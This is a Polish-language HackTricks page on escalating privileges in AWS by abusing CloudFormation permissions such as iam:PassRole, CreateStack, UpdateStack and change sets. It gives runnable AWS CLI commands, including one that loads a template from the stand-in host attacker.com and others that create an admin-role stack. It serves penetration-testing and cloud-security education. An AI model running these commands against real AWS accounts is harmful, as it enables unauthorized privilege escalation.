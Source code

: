 # AWS - Eskalacja uprawnień w chmurze

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## cloudformation

Aby uzyskać więcej informacji na temat cloudformation, sprawdź:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Atakujący posiadający te uprawnienia **może eskalować uprawnienia**, tworząc **stos CloudFormation** z niestandardowym szablonem, hostowanym na swoim serwerze, aby **wykonać akcje pod uprawnieniami określonej roli:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Na następnej stronie znajdziesz **przykład eksploatacji** z dodatkowym uprawnieniem **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Potencjalny wpływ:** Przywileje eskalacji do roli usługi cloudformation określonej.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

W tym przypadku możesz **nadużyć istniejący stos cloudformation** do jego aktualizacji i eskalacji uprawnień, podobnie jak w poprzednim scenariuszu:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
### `cloudformation:SetStackPolicy` | `cloudformation:UpdateStack`

Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **nadania sobie uprawnienia `UpdateStack`** w stosie i przeprowadzenia ataku.

**Potencjalny wpływ:** Eskalacja uprawnień do roli usługi cloudformation określonej.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Jeśli masz to uprawnienie, ale **nie masz `iam:PassRole`**, nadal możesz **aktualizować używane stosy** i nadużywać **Role IAM, do których już są dołączone**. Sprawdź poprzednią sekcję dla przykładu eksploatacji (po prostu nie wskazuj żadnej roli w aktualizacji).

Uprawnienie `cloudformation:SetStackPolicy` może być użyte do **nadania sobie uprawnienia `UpdateStack`** w stosie i przeprowadzenia ataku.

**Potencjalny wpływ:** Eskalacja uprawnień do roli usługi cloudformation już dołączonej.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Atakujący posiadający uprawnienia do **przekazania roli oraz utworzenia i wykonania zestawu zmian** może **tworzyć/aktualizować nowy stos cloudformation i nadużywać ról usługi cloudformation** tak jak w przypadku CreateStack lub UpdateStack.

Następujący exploit to **wariacja**[ **jednego z CreateStack**](./#iam-passrole-cloudformation-createstack) wykorzystująca **uprawnienia ChangeSet** do utworzenia stosu.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` uprawnienie można wykorzystać do **nadania sobie uprawnień `ChangeSet`** w stosie i przeprowadzenia ataku.

**Potencjalny wpływ:** Eskalacja uprawnień do ról usługi cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

To jest podobne do poprzedniej metody bez przekazywania **ról IAM**, więc można po prostu **wykorzystać już dołączone**, po prostu zmodyfikuj parametr:
```
--change-set-type UPDATE
```
**Potencjalny wpływ:** Przywileje do usługi cloudformation już dołączone.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Atakujący mógłby wykorzystać te uprawnienia do tworzenia/aktualizowania StackSets w celu nadużycia dowolnych ról cloudformation.

**Potencjalny wpływ:** Przywileje do ról usługi cloudformation.

### `cloudformation:UpdateStackSet`

Atakujący mógłby wykorzystać to uprawnienie bez uprawnienia passRole do aktualizacji StackSets w celu nadużycia dołączonych ról cloudformation.

**Potencjalny wpływ:** Przywileje do dołączonych ról cloudformation.

## Referencje

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
